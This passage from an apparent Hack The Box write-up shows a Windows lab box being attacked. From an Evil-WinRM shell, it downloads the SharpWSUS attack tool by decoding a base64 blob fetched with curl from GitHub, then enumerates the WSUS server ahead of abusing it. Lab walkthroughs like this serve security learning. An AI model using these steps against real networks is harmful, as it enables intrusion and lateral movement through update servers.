 For this, we can use SharpWSUS to enumerate and exploit anything:

{% embed url="https://labs.nettitude.com/blog/introducing-sharpwsus/" %}

Also, rather interestingly, we have `PsExec64.exe` within the user's desktop:

```
*Evil-WinRM* PS C:\Users\sflowers\desktop> dir

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/3/2022   4:19 PM         514472 PsExec64.exe
-ar---        5/10/2023   3:16 PM             34 user.txt
```

I use HTB VIP, so this is not placed by another player. We might need to use this later. Anyways, we can download `SharpWSUS.exe` using these commands:

```bash
curl -s https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1 | grep FromBAsE64String | cut -d '"' -f 2 | base64 -d > SharpWSUS.gz
gunzip SharpWSUS.gz
mv SharpWSUS SharpWSUS.exe
```

We can run an `inspect` command to enumerate:

```
*Evil-WinRM* PS C:\Users\sflowers\desktop> .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
dc.outdated.htb, 172.16.20.1, 10.0.17763.1432, 5/10/2023 10:17:06 PM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
```
